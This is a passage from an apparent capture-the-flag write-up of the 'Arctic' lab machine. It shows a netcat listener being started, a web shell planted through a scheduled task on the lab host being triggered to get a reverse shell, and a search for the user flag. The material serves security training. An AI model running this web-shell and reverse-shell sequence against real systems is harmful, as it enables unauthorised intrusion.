 Upon submission, we can see the GET request on our HTTP server:

![Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2019.png](Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2019.png)

With that, we set up the listener with the following command:

```python
nc -nvlp 4444
```

And we head to the link that we specified in the creation of the Scheduled Task:

[http://10.10.10.11:8500/CFIDE/shell.jsp](http://10.10.10.11:8500/CFIDE/shell.jsp)

Upon completion, we can see that we have shell on our listener

![Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2020.png](Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2020.png)

# User Flag

To find the user flag, we head to the C drive and run a dir command as follows:

```python
dir user.txt /s
```

![Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2021.png](Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2021.png)
